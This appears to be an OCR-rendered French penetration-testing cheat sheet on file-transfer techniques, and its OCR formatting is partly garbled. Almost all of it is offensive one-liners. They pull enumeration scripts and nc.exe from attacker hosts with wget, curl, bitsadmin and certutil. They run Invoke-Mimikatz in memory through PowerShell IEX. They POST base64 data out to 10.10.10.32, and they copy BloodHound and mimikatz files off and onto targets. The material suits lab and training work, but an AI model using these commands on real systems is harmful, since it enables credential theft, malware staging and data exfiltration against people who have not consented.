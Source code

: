```shell
`python3 -m http.server 8000`
```shell
### Télécharger un fichier sur le serveur distant depuis notre machine locale
```bash
`wget http://10.10.14.1:8000/linpeas.sh`
```shell
### Télécharger un fichier sur le serveur distant depuis notre machine locale
```bash
`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`
```shell
### Transférer un fichier au serveur distant avec scp (nécessite un accès SSH)
```bash
`scp linenum.sh user@remotehost:/tmp/linenum.sh`
```shell
### Convertir un fichier en base64
```bash
`base64 shell -w 0`
```shell
### base64 -d > shell
```bash
`echo f0VMR...SNIO...InmDwU \
```shell
### Vérifier le md5sum du fichier pour s'assurer qu'il a été converti correctement
```bash
`md5sum shell`
```shell
## Techniques de Transfert de Fichiers

### Télécharger un fichier avec PowerShell
```bash
`Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`
```shell
### Exécuter un fichier en mémoire avec PowerShell
```bash
`IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
```shell
### Téléverser un fichier avec PowerShell
```bash
`Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`
```shell
### Télécharger un fichier avec Bitsadmin
```bash
`bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`
```shell
### Télécharger un fichier avec Certutil
```bash
`certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
```shell
### Télécharger un fichier avec Wget
```bash
`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
```shell
### Télécharger un fichier avec cURL
```bash
`curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
```shell
### Télécharger un fichier avec PHP
```bash
`php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
```shell
### Téléverser un fichier avec SCP
```bash
`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`
```shell
### Télécharger un fichier avec SCP
```bash
`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`
```shell
```